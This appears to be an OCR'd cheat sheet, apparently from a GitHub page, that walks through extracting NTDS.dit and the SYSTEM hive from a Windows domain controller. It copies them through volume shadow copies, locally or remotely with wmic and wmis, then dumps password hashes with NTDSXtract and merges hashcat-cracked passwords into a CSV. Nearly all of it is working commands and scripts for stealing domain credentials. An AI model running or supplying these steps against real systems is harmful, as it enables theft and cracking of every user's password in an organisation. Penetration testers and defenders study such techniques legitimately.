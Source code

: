 Extract NTDS.dit and SYSTEM hive from Domain Controller
Create a volume shadow copy of the system drive on the domain controller. Launch a Command Prompt "As Administrator"

md c:\tmp
vssadmin create shadow /for=C:
vssadmin list shadows
copy \\?\GLOBALROOT\{device_id}\Windows\NTDS\NTDS.dit c:\tmp
copy \\?\GLOBALROOT\{device_id}\Windows\System32\config\SYSTEM c:\tmp\SYSTEM.hive
vssadmin delete shadows /for=C:
Remotely from Command Line
From Windows:

wmic /node:DC101 /user:DOMAIN\domainadmin /password:password123 process call create "cmd /c copy \\?\GLOBALROOT\Device\{device_id}\Windows\NTDS\NTDS.dit C:\tmp\NTDS.dit 2>&1 > C:\tmp\output.txt"
From Kali:

wmis -U DOMAIN\domainadmin%password123 //DC01 cmd.exe /c copy \\?\GLOBALROOT\Device\{device_id}\Windows\NTDS\NTDS.dit C:\tmp\NTDS.dit 2>&1 > C:\tmp\output.txt
Extract User Object Information from NTDS.dit
Download and Install libesedb:

wget https://googledrive.com/host/0B3fBvzttpiiSN082cmxsbHB0anc/libesedb-alpha-20120102.tar.gz --no-check-certificate 
tar zxvf libesedb-alpha-20120102.tar.gz
cd libesedb-20120102
./configure
make
make install
ldconfig
cp esedbtools/esedbexport /usr/bin
cp esedbtools/esedbinfo /usr/bin
ln -s /usr/bin/esedbexport /usr/bin esedbextract
Download and Install NTDSXtract:

yum -y install python-crypto
wget http://www.ntdsxtract.com/downloads/ntdsxtract/ntdsxtract_v1_2_beta.zip
unzip ntdsxtract_v1_2_beta.zip
mv NTDSXtract\ 1.0 ntdsxtract
Perform Extraction: (sometimes python2 is required to execute the command)

esedbexport ntds.dit
python ntdsxtract/dsusers.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.6 --passwordhashes SYSTEM.hive --passwordhistory SYSTEM.hive >dsusers.out
Process Output to CSV
#!/bin/bash
#
echo "Record ID,User name,User principal name,SAM Account name,SAM Account type,GUID,SID,When created,When changed,Account expires,Password last set,Last logon,Last logon timestamp,Bas password time,Logon count,Bad password count,User Account Control,Password hashes,Cracked Password" > dsusers.csv
cat dsusers.out |grep "Record ID" |cut -d" " -f 13 >1
cat dsusers.out |grep "User name" |cut -d" " -f 13-20 >2
cat dsusers.out |grep "User principal name" |cut -d" " -f 4 >3
cat dsusers.out |grep "SAM Account name" |cut -d" " -f 7 >4
cat dsusers.out |grep "SAM Account type" |cut -d" " -f 7 >5
cat dsusers.out |grep "GUID" |cut -d" " -f 2 >6
cat dsusers.out |grep "SID" |cut -d" " -f 3 >7
cat dsusers.out |grep "When created" |cut -d" " -f 11-12 >8
cat dsusers.out |grep "When changed" |cut -d" " -f 11-12 >9
cat dsusers.out |grep "Account expires" |cut -d" " -f 8-10 >10
cat dsusers.out |grep "Password last set" |cut -d" " -f 7-8 >11
cat dsusers.out |grep "Last logon:" |cut -d" " -f 12 >12
cat dsusers.out |grep "Last logon timestamp" |cut -d" " -f 4-5 >13
cat dsusers.out |grep "Bad password time" |cut -d" " -f 8-9 >14
cat dsusers.out |grep "Logon count" |cut -d" " -f 12 >15
cat dsusers.out |grep "Bad password count" |cut -d" " -f 6 >16
cat dsusers.out |grep 'User Account Control\|Disabled' | awk '{S=!/^[[:space:]]/? S RS $0 : S OFS $1}END{print S}' OFS=\, |cut -d":" -f2 |cut -d"," -f2 |tail -n+2 > 17
cat dsusers.out |grep 'Password hashes\|\$NT\$' |grep -v "history" |tr " " "_" | awk '{S=!/^[[:space:]]/? S RS $0 : S OFS $1}END{print S}' OFS=\, |cut -d "," -f 2 |grep -v "Password_hashes:" > 18
paste -d "," 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 >> dsusers.csv
rm -fr 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18
Append Cracked Passwords from Hashcat
#!/bin/bash
#
cat dsusers.csv | while read line;
do
        hash=`echo $line |cut -d "," -f18 |cut -d "$" -f 3 |cut -d ":" -f1`
        chash=`cat cracked |cut -d":" -f1 | grep $hash`
        if [[ $hash == *"$chash"* ]]
        then
                user=`cat cracked |grep $hash |cut -d":" -f2`
                echo $line,$user
        else
                echo $line","
        fi
done

